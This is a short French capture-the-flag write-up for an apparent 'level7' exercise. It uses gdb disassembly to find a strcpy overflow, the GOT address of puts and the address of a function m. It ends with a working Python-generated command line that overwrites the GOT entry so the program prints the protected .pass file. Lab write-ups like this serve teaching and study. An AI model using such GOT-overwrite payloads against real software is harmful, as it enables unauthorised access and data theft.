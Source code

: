 On a une fonction m() qui affiche avec un printf la variable c qui contient ce que fgets stock dedans. En l'occurence le contenu de fichier .pass, ce que nous cherchons.

Ce qu'il faut faire ici est de modifier l'adresse de puts pour qu'il pointe sur notre fonction m() afin qu'il affiche le contenu de la variable c.

```gdb
   0x08048592 <+113>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048596 <+117>:	mov    eax,DWORD PTR [eax+0x4]
   0x08048599 <+120>:	mov    DWORD PTR [esp+0x4],edx
   0x0804859d <+124>:	mov    DWORD PTR [esp],eax
---Type <return> to continue, or q <return> to quit---
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080485a8 <+135>:	add    eax,0x8
   0x080485ab <+138>:	mov    eax,DWORD PTR [eax]
   0x080485ad <+140>:	mov    edx,eax
   0x080485af <+142>:	mov    eax,DWORD PTR [esp+0x18]
   0x080485b3 <+146>:	mov    eax,DWORD PTR [eax+0x4]
   0x080485b6 <+149>:	mov    DWORD PTR [esp+0x4],edx
   0x080485ba <+153>:	mov    DWORD PTR [esp],eax
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    edx,0x80486e9
   0x080485c7 <+166>:	mov    eax,0x80486eb
   0x080485cc <+171>:	mov    DWORD PTR [esp+0x4],edx
   0x080485d0 <+175>:	mov    DWORD PTR [esp],eax
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    DWORD PTR [esp+0x8],eax
   0x080485dc <+187>:	mov    DWORD PTR [esp+0x4],0x44
   0x080485e4 <+195>:	mov    DWORD PTR [esp],0x8049960
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	mov    DWORD PTR [esp],0x8048703
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
```

On recupere l'adresse de puts dans le GOT
```gdb
(gdb) disassemble 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    DWORD PTR ds:0x8049928
   0x08048406 <+6>:	push   0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
(gdb)
```
ON recupere l'adresse de m
```gdb
(gdb)i func
0x080484f4  m
```
```bash
./level7 $(python -c "print('B' * 20 + '\x28\x99\x04\x08')") $(python -c "print('\xf4\x84\x04\x08')")
```

